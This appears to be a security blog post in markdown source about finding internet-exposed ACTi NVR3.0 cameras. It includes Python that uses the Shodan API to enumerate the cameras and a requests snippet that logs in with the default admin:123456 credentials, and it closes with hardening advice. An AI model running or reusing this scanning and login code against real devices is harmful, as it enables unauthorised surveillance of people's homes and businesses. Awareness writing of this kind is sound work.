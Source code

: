```yaml
---
title: "The Hidden Risks of Poorly Secured Security Cameras"
description: "Discover how easy it is for attackers to find and exploit cameras that are connected to the internet."
pubDate: "16 May 2024"
heroImage: "/blog-placeholder-1.jpg"
tags: ["Cyber Security", "IOT", "Python"]
---
```



We all know that leaving default passwords active is a bad idea, but it can be even more risky on
security cameras. With such a simple oversight you are allowing intruders into your home or business
and losing all privacy.

Despite this being such an easy fix (just change the password!), many people end up skipping this step.
This results in their "secure" cameras becoming easily exploited by attackers.

<Alert type="warning">
  The information below is intended for educational purposes only. Never attempt
  to access any computer system without explicit permission.
</Alert>

## How Attackers Find Exposed Cameras

Using powerful search engines like Shodan and Censys, it makes finding internet connected devices
trivial. Unlike your regular search engine (eg google), these search engines are used to find
IOT devices, meaning any device connected to the internet. We can utilize these to search for
**ACTi NVR3.0 devices** - a popular camera. If we use Censys to search for the term "NVR3.0"
we can see 1000s of results are returned.

Once these cameras have been located, an attacker can manually attempt to login to each one
using the factory default credentials (admin/123456). These factory defaults are often left
enabled as people will not change them.

But why do this manually when it can be automated?

## Automating the Search

Shodan and Censys both provide convenient APIs to search through their databases. The API will return
detailed data including: IP, open ports, latitude, longitude, etc. Using this data makes searching
easy. Here is a simple Python script to demonstrate how the Shodan API can be used:

```python
api = Shodan(config.SHODAN_API)
search_term = 'http.html:NVR3.0'

count = api.count(search_term)['total']
for page in range(math.ceil(count/100)):
    query = api.search(query=search_term, page=page+1)
    for server in query['matches']:
        param = f"{server['ip_str']}:{server['port']}"
        location = server["location"]
        start_thread(param, "SHODAN", location["city"], location["country_name"], location["country_code"], location["longitude"], location["latitude"])

```

## Inspecting and Exploiting

Once an attacker finds a camera they are able to attempt to login. We can use tools
like Burp suite to log all HTTP requests that the browser makes and inspect the data.
When logging in we can observe a header that gets sent:

```
Authorization: Basic YWRtaW46MTIzNDU2
```

We are able to decode this base64 string to inspect the data:

```sh
$ echo YWRtaW46MTIzNDU2 | base64 --decode                                                                                                                          2ms
# admin:123456
```

The decoded string includes the username and password that we entered in the login
page. With this information an attacker can programmatically attempt to login:

```python
r = requests.get(f"http://{server}/Media/UserGroup/login?response_format=json", headers={"Authorization": "Basic YWRtaW46MTIzNDU2" }, timeout=10)
if(r.status_code == 200):
  print("Login success")
```

We can just check the response from the login requests and check it matches the
status code "200" (meaning successful login). At this point an attacker can then
login to the camera and view it. I've put together a script that will
automate the whole process - available on my [GitHub](https://github.com/member87/cam-finder)

## What Can Attackers Access?

Once logged in as an admin, the attacker will have full control over the cameras. This includes:

- **Live Viewing & Playback**: Watch the cameras in real time and previous historical recordings.
  If the camera also has audio support, they would also be able to hear conversations.
- **Camera Management**: Rename, delete, and configure camera settings.
- **Storage Control**: Delete previous recordings and reserve all disk space to prevent any
  new recordings
- **Camera Direction**: There are a few models of cameras that will allow you to rotate the
  position, potentially watching sensitive areas.
- **User Management**: Add, delete, or modify user accounts.

## Potential Impact of Poor Security

The implications of a compromised camera system are shocking. A bad actor could use this access
for anything from petty vandalism to a physical break-in—then delete the evidence. At the time of
writing, I’ve identified over 600 exposed cameras, many in homes and businesses.

## How to Secure Cameras (or anything IOT)

- **Default Passwords**: Any password that comes default with your device should
  be changed as soon as possible.
- **Limit Internet Exposure**: Don't make your devices available publically on the
  internet unless absolutely required. In these cases there should be sufficient
  security measures in place preventing public access.
- **IP Whitelist or VPN**: If you need remote access, limit which IPs can have access
  or use a VPN to securely connect.
